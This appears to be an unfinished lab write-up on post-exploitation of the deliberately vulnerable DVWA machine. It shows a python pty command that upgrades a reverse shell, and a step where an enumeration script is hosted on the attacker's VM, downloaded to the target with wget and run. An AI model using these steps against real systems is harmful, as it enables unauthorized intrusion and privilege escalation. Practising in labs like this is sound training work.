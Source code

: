 # Post Exploitation and Privilege Escalation:

At this stage trying to execute a command using the sudo keyword gives us the following:

![Screen Shot 2022-04-25 at 13 28 35](https://user-images.githubusercontent.com/18306338/165151242-b36a820b-e655-4dbc-9588-98a840e50e3c.png)

The "no tty present on askpass program specified" message indicates we are not an user with sudo privileges.

In order to do an upgrade of our shell we need to resort to a python library called 'pty', which spawns a tty shell for us.

![Screen Shot 2022-04-25 at 13 35 11](https://user-images.githubusercontent.com/18306338/165151353-1a958504-d817-401b-b5e6-83516e97fa48.png)

https://netsec.ws/?p=337 - the following link gives quite a few options to spawn a tty shell using different scripting languages.

After executing the python -c 'import pty; pty.spawn("/bin/sh")' command we now see a different output when we execute sudo -l in our terminal.

![Screen Shot 2022-04-25 at 13 36 25](https://user-images.githubusercontent.com/18306338/165151424-a53572c9-4704-4850-9c9c-df2c44c1eaaa.png)

The first stage of 'upgrading' our terminal in now complete.

Next step is to enumerate the machine and get information about running processes/cron jobs/sudo users etc.
In order to achieve that we will use a tool called LinEnum.

First thing we need to do is download the git repo to our machine

![Screen Shot 2022-04-25 at 14 17 17](https://user-images.githubusercontent.com/18306338/165151715-c401f17e-d32c-46c4-ae77-be07ad76da45.png)

We can see the .sh file that we need to execute.

In order to execute the bash script file onto the DVWA machine we need to serve this file on a server, which will make the file accessible on the dvwa machine through the wget tool . For that purpose we use python http.server package.

We start the python server

<img width="728" alt="Screen Shot 2022-04-25 at 14 21 26" src="https://user-images.githubusercontent.com/18306338/165152343-e6744472-68a7-4538-9cfd-3fff18cc96e9.png">

Then we obtain the ip address of our Kali VM

![Screen Shot 2022-04-25 at 14 27 52](https://user-images.githubusercontent.com/18306338/165152506-6eaec5ff-e0de-4c96-994c-f6a8de87b404.png)

After we have the python server running and the ip address we navigate to the reversed shell and run ls -la command to see where we have write access.

After entering the tmp folder we use wget to get the http:\\10.0.2.15:8000\LinEnum\LinEmun.sh file

![Screen Shot 2022-04-25 at 14 36 34](https://user-images.githubusercontent.com/18306338/165152577-99ebd22b-f22a-4db7-bd0d-645919e978d5.png)

Initially trying to run the LinEmun.sh script yields a "Permission denied error". This is usually due to the fact that the file in place is missing the executable right and once added the script runs and we gather information for the DVWA machine.

<img width="765" alt="Screen Shot 2022-04-25 at 14 40 53" src="https://user-images.githubusercontent.com/18306338/165153030-c7ffb42f-7174-46a1-a140-4fc7217300f8.png">

## What is DVWA vulnerable to?

In order to evaluate what DVWA is vulnerable to we use the same approach with another tool called LinPeas.


## What are the most probable exploits? (try using Linux exploit suggester)

## Check the most probable vulnerabilities

## Extra Mile: Try to exploit the machine using the most probable vulnerabilities
